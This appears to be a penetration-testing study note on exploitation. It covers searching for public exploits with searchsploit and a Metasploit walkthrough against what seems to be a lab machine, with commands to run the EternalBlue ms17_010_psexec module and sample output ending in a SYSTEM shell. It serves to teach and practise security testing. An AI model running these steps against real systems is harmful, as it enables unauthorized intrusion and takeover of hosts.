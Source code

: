 ```yaml
---
title: "Exploitation"
date: 2022-06-05T15:50:16+05:30
draft: false
author: "Ranjan"
---
```


## Public Exploits
--------------------------------------------------------------------------------------------------------------------------------
- Once we identify the services running on ports identified from our Nmap scan, the first step is to look if any of the applications/services have any public exploits.
- Public exploits can be found for web applications and other applications running on open ports, like SSH or ftp.

#### Finding Public Exploits
- Google for the application name with exploit to see if we get any results
Ex- "windows 7 smb exploit"
- A well-known tool for this purpose is searchsploit, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:
> `sudo apt install exploitdb -y`
- Then, we can use searchsploit to search for a specific application by its name, as follows:
> `searchsploit openssh 7.2`
- We can also utilize online exploit databases to search for vulnerabilities, like *Exploit DB, Rapid7 DB, or Vulnerability Lab.*

## Metasploit Primer
-The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. 
- MSF has many other features, like:
    - Running reconnaissance scripts to enumerate remote hosts and compromised targets
    - Verification scripts to test the existence of a vulnerability without actually compromising the target
    - Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
    - Many post-exploitation and pivoting tools

- Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run Metasploit, we can use the msfconsole command:
> `msfconsole`
- Once we have Metasploit running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:
> `search exploit eternalblue`
>
> Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search
- We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:
> `use exploit/windows/smb/ms17_010_psexec`
- Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command. 
- Any option with *Required* set to yes needs to be set for the exploit to work. In this case, we only have to options to set: RHOSTS, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command: 
> `msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40`
>
> `msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0`
- Once we have both options set, we can start the exploitation. However, before we run the script, we can run a `check` to ensure the server is vulnerable:
> `check`
    
    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [+] 10.10.10.40:445 - The target is vulnerable.

- As we can see, the server is vulnerable. Note that not every exploit in the Metasploit Framework supports the check function. Finally, we can use the run or exploit command to run the exploit:
> `exploit`
>
> Result:
>
> `C:\WINDOWS\system32>whoami`
>
> `NT AUTHORITY\SYSTEM`
- As we can see, we have been able to gain admin access to the box and used the shell command to drop us into an interactive shell. 
- These are basic examples of using Metasploit to exploit a vulnerability on a remote server. 